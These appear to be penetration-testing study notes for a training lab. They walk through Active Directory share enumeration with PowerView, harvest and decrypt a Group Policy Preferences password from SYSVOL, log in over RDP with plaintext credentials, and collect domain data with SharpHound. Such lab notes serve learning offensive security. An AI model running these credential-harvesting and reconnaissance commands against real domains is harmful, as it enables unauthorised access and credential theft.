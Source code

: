 need to use powerview for this
```
cd C:\Tools
powershell -ep bypass
Import-Module .\PowerView.ps1
```

Find the shares in the domain
```
Find-DomainShare
```

find shares available to us
```
Find-DomainShare -CheckShareAccess
```

lets look at SYSVOL, as it may include files and folders that reside on the domain controller itself
```
ls \\dc1.corp.com\sysvol\corp.com\
```

look at a specific folder
```
ls \\dc1.corp.com\sysvol\corp.com\Policies
```

look at specific file
- this is an older domain policy file
- This is a common artifact on domain shares as system administrators often forget them when implementing new policies.

this file also contains an encrypted password
```
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

this password is stored with GPP (group policy preferences) and encrypted with AES-256
```
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE" # password is P@$$w0rd
```

```
ls \\dc1.corp.com\sysvol\corp.com\
ls \\dc1.corp.com\sysvol\corp.com\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
```
### automation with sharphound
```
xfreerdp /u:stephanie /d:corp.com /v:192.168.214.75 /p:LegmanTeamBenzoin\!\!
cd C:\Tools
powershell -ep bypass
Import-Module .\Sharphound.ps1
Get-Help Invoke-BloodHound
```


attempt to gather All data, which will perform all collection methods except for local group policies.
```
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```
